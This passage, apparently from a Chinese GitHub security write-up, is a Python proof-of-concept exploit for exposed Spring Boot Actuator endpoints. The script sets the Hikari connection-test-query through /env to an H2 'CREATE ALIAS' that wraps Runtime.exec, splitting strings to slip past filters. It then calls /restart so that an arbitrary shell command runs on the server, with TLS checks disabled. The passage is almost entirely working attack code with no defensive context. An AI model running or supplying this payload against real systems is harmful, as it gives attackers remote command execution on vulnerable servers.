 # 五、PoC脚本

脚本实现了随机化设置别名，不会因为别名的重复而导致Spring服务出现问题。

```python
import requests
import argparse
import json
import sys
from lxml import etree
import string
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def spring_poc(url, command, version):
    if url[-1] != '/':
        url = url + '/'
    random_str = ''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase, k = 8))
    if version == 1:
        headers = {
            'Content-Type' : 'application/x-www-form-urlencoded'
        }
        data = """\
            spring.datasource.hikari.connection-test-query=CREATE ALIAS %s AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL %s('%s');\
            """ % (random_str, random_str, command)
    else:
        headers = {
            'Content-Type': "application/json"
        }
        data = """\
        {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS %s AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');CALL %s('%s');"}\
        """ % (random_str, random_str, command)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url = url+'env', data=data, headers=headers, timeout=10, verify=False)
        if command in response.text:
            print(colors.OKGREEN + 'hikari.connection-test-query  is successfully configured!' + colors.reset)
        else:
            print(colors.FAIL + 'hikari.connection-test-query configuration failed.' + colors.reset)

        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url = url+'restart', data="", headers=headers, timeout=10, verify=False)
        if response.status_code == 200:
             print(colors.OKGREEN + 'Actuator restarted successfully!' + colors.reset)
        else:
            print(colors.FAIL + 'Actuator failed to restart.' + colors.reset)
        print(colors.OKCYAN + 'The command has been successfully executed!' + colors.reset)
    except Exception as e:
        print(colors.FAIL + 'Request exception.' + colors.reset)


class colors:
    reset='\033[0m'
```